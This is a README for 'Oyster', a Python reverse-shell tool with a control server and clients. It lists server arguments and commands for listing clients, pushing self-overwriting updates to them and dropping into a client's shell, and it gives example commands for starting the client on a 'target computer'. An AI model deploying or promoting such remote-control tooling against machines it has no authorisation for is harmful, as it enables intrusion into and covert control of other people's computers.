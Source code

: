 ```python
 .oOOOo.
.O     o.
O       o               O
o       O              oOo
O       o O   o .oOo    o   .oOo. `OoOo.
o       O o   O `Ooo.   O   OooO'  o
`o     O' O   o     O   o   O      O
 `OoooO'  `OoOO `OoO'   `oO `OoO'  o
              o
           OoO'
```

Oyster is a lightweight multi-threaded reverse shell written in python 
3.5.  The server can push updates to the clients, and the clients will
overwrite/restart themselves.

I wrote this after finding an example reverse shell on the thenewboston 
youtube channel.  I saw some things I wanted to improve, so that's what 
I attempted to do.  The clients will continuously try to make a 
connection with the server.

## Control Server

Start `server.py` from the command line.  Here are the keyword arguments 
used for `server.py`:

```
host        - Host IP address.
port        - Host port.
recv_size   - Buffer size for receiving and sending data.
listen      - Maximum number of queued connections.
bind_retry  - How many times to retry binding the socket to the port.
```

Commands for the `Oyster` shell are:

```
list                        -   List the connected clients.
update all                  -   Update all the connected clients using `update.py`.  Clients will overwrite themselves and reboot themselves.
use {client_ip}             -   Use a client connection.  {client_ip} can be found by running the `list` command.
quit                        -   Shut everything down.
```

### `use` Command

The `use` command will set the current connection to the given ip.  Once
this happens, it will drop you into a shell for that connection.  To get
out of the connections shell, run the `quit` command.  This will take 
you back to the `Oyster` shell.

```
Oyster> use 10.0.0.8
/Users/SomeUser/Where/The/Client/Is/Stashed> 
```

### Example

All of the arguments provided below are the defaults except `host`, 
which is a blank string as the default.

```
python3 server.py host=0.0.0.0 port=6667 recv_size=1024 listen=10 bind_retry=5
```

## Client

Start `client.py` on the target computer.  It's up to the user to figure
out how to get this to run on startup or whatever.  Here are startup
arguments.

```
host
port
recv_size
```

### Example

```
python3 client.py host=10.0.0.215 port=6667 recv_size=1024
```
